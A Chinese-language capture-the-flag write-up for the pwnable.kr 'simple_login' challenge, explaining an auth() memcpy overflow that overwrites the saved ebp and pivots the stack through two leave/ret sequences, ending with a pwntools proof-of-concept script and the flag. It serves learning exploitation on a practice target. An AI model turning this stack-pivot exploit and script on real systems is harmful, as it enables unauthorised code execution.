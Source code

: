```yaml
---

layout: post

title: 'pwnable.kr之simple_login'

date: '2017-07-13'

header-img: "img/home-bg.jpg"

tags:
     - pwnable.kr
author: 'De4dCr0w'

---
```


### 反汇编后的main函数 ###

![](http://i.imgur.com/u6DHsu7.png)

漏洞发生的地方在auth函数

### 反汇编后的auth函数 ###

![](http://i.imgur.com/clCH77f.png)

memcpy可能造成缓冲区溢出，auth函数通过memcpy复制内容到一个int类型的局部变量中。  
memcpy函数的原型为：  

> void *memcpy(void *dest, const void *src, size_t n);  
> 功能：从源src所指的内存地址的起始位置开始拷贝n个字节到目标dest所指的内存地址的起始位置中
 
反汇编代码如下：

![](http://i.imgur.com/wEUoxRa.png)

所以[esp+8]保存的是要复制的字节数，[esp+4]保存的是源地址，[ebp+var_14+0Ch]=[ebp-14h+0Ch]=[ebp-8]保存目的地址。因为前面有Base64解码后判断长度是否大于12，大于则提示Wrong Length，所以能输入的字符串长度为12，所以能溢出的只有四个字节，即ebp。  
要深刻理解leave和ret指令的含义：  

> leave指令等同于下面两条命令（32位）  
> mov esp, ebp  
> pop ebp;该命令会将esp中的值给ebp，同时esp自身会+4  

**该指令执行完之后结果为：esp=ebp+4,ebp=[ebp]**
> ret指令等同于pop eip  
> 实际上pop出来就是现在的栈顶，即esp指向的内容。  

可以看到实际程序中有两个连续的leave ret，分别在auth函数和main函数中：  

![](http://i.imgur.com/1MJE2Fp.png)

第一个leave执行前：  

![](http://i.imgur.com/zGly5Y1.png)

第一个leave执行后：

![](http://i.imgur.com/Tdw8H5R.png)

leave语句执行后ebp的值变为原先储存的值，esp的值变为原来ebp的值加4，同理：  
第二个leave执行前：

![](http://i.imgur.com/2SZXKpx.png)

第二个leave执行后：

![](http://i.imgur.com/iz1Xrrs.png)

所以攻击思路为：输入的12个字节的最后四个字节为input的地址：  

![](http://i.imgur.com/CsHpsbZ.png)  

即覆盖了ebp，ebp保存的是上一个栈帧的esp，（最开始压栈的**mov ebp， esp**操作）。这里覆盖的是main函数的ebp（因为auth函数进入时push ebp，push进来的是main函数的ebp值），所以在main函数时的esp还是正常的，ebp已经是我们覆盖的值了。所以第二次leave后，esp指向的是input的第4~7个字节，然后ret，弹出这四个字节，所以这四个字节要填充调用system的地址。  
总的来说就是通过控制ebp来控制esp，进而控制eip，这可以在offbyone漏洞中利用，通过溢出ebp来完成攻击。

例如：[Linux平台OffByOne(基于栈)漏洞](http://bbs.pediy.com/thread-218997.htm)

### poc.py ###

	from pwn import *
	import base64
	
	context.log_level = 'debug'
	#p = process('./login')
	p = remote('pwnable.kr',9003)
	system_addr = 0x08049278
	input_addr = 0x0811EB40
	fill_data = 0xdeadbeaf
	
	p.recvuntil("Authenticate : ")
	
	payload = p32(fill_data)+p32(system_addr)+p32(input_addr)
	payload = base64.b64encode(payload)
	
	#gdb.attach(p)
	
	p.sendline(payload)
	
	p.interactive()



>flag: control EBP, control ESP, control EIP, control the world~
